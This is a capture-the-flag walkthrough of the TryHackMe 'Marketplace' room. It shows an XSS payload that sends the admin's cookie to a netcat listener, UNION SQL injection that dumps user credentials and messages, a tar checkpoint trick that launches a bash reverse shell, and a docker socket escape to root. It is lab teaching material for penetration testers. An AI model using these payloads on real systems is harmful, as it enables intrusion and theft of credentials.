

### THM - The Marketplace

Link to the room: [The Marketplace](https://tryhackme.com/room/themarketplace)

Difficulty: Medium 

"The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?" - THM

##### *Before we start, I have to apologize for the host IP address. It is all over the place. I let the room timeout twice while working on this room and writing this writeup.*

#### Recon
We can start with nmap scan command:

```sudo nmap -sC -sV -Pn 10.10.27.191```


We can see that port 22, 80, and 32768 is open. Also, there is a robots.txt file. Let's check on the web page and the robot file.


From wappalyzer, we can see that the web page is running on Node.js with Express framework. The robots.txt file is telling us that there is a hidden directory called ```/admin```. Let's check it out. 


As expected, the admin page is blocked. Let's signup for an account and see what we can find.


After signing up, we can see that there is a 'new listing'. Let's try to make a new listing.


Ah, a place for user input. Let's see if it is vulnerable to XSS. We can start with this payload:

```<script>XSS TEST</script>```


Great! It is vulnerable to XSS. Let's look around a bit more to see what we can find.




We can see that we can report a listing and the message says that the admin will be notified. Let's try to craft a payload that will steal cookies from the admin after the admin look at our listing. Let's start up our netcat listener and craft our XSS payload.

```nc -lvnp 4545```

```<script>fetch('http://{IP}:4545?cookie=' + document.cookie);</script>```

Let's create a new listing with our payload and report it.


After we submit a new report, we can see our own cookie in the netcat listener.


After we report our listing, we can see that the admin has viewed our listing. Let's try to login to the admin page with the cookie we stole.


Great! We are in the admin page and it is greeting us with a flag. Let's do some enumeration on the admin page.

After some enumeration, I notice that the user page has a url of ```http://10.10.46.198/admin?user=1``` Let's check if it is vulnerable to SQL injection. WE can try to add ```'``` to the end of the url and see if it is vulnerable.


We can see that it is vulnerable to SQL injection. Let's try to enumerate the database. 

After some manual SQLi enumeration, I found out that we be using ```UNION``` 

We can start with ```http://10.10.46.198/admin?user=1 union select 1```
We are still getting error so we can try to use ```UNION SELECT 1,2``` and so on.

I found that after using ```UNION SELECT 1,2,3,4```, we dont get the error anymore. So we can see that the database has 4 columns. Let's try to enumerate the database. First, let's get database name.

```http://10.10.210.129/admin?user=0 union select database(),2,3,4```


Great! let's try to get the table name.

```http://10.10.210.129/admin?user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()```


We can see that there are 3 tables in the database. Table ```users``` looks very interesting to us. Let's get its column name.

```http://10.10.210.129/admin?user=0 union select 1,group\_concat(column\_name),3,4 from information\_schema .columns where table\_name = 'users'```


Great! we can see that there are 3 columns. Let's get the username and password.

```http://10.10.210.129/admin?user=0 union select 1,group_concat(username,':',password SEPARATOR '&lt;br&gt;'),3,4 from users```


We can see the usernames and passwords. The password looks like bcrypt hash. Let's try to crack it with john the ripper.

```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

While waiting for john to crack the hash, let's see what other information we can get from the database. 

In the table names that we got earlier, we know that ```items``` is a table for listing but there is another table called ```messages``` that we dont know what it is for. Let's try to enumerate it.

```http://10.10.210.129/admin?user=0 union select 1,group\_concat(column\_name),3,4 from information\_schema .columns where table\_name = 'messages'```


Looks very interesting. Let's try to get the data from the table.

```http://10.10.210.129/admin?user=0 union select 1,group\_concat(message\_content,':',user\_from,':',user\_to SEPARATOR '&lt;br&gt;'),3,4 from messages```


What do you know!? We have an automated message to user 3 from user 1 about his ssh password. Now we know that user 3 is 'jake'. Let's try to ssh to his account.


Great! We have a shell. Let's try to get the user flag and stop john from cracking the hash.


### Privilege Escalation

Let's start with ```id``` and ```sudo -l```


Great! We can run backup.sh as 'michael'. Let's check out the backup.sh file.


After some research, I found that we can gain privelege escalation by using the ```--checkpoint=1``` and ```--checkpoint-action=exec=sh``` options of tar. We also know that we can write in ```/opt/backups/``` folder. Let's try it out

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

This whole thing will be interpreted as ```tar -cf /opt/backups/backup.tar --checkpoint=1 --checkpoint-action=exec=sh shell.sh```

After some more research, I found another useful resource that explains how to use ```--checkpoint``` and ```--checkpoint-action``` options of tar. https://www.gnu.org/software/tar/manual/html_section/checkpoints.html

Our command looks like this

```
echo "bash -c 'bash -i >& /dev/tcp/{OUR_IP}/4545 0>&1'" > shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh

sudo -u micheal /opt/backups/backup.sh
```

Let's try start our netcat and run the command.


Oops! We got an error. ```backup.tar``` already exists and is belong to jake. Let's give permission to everyone.

```chmod 777 backup.tar```

Let's try to run the command again.


Great! we have a shell as michael and is in a docker group which mean we have write premission to ```/var/run/docker.sock```. Let's try to get the root flag.

I don't remember the command. After doing some research, I found it in the hacktricks website. https://book.hacktricks.xyz/linux-hardening/privilege-escalation

First, let's list the docker images.

```docker images```

We can see that Alpine image is on the list. Let's use it to get the root flag.

```docker -H unix:///var/run/docker.sock run -v /:/host -it alphine chroot /host /bin/bash```


Great! We have a root shell. Let's get the root flag.


That's it for this writeup. Thank you for reading.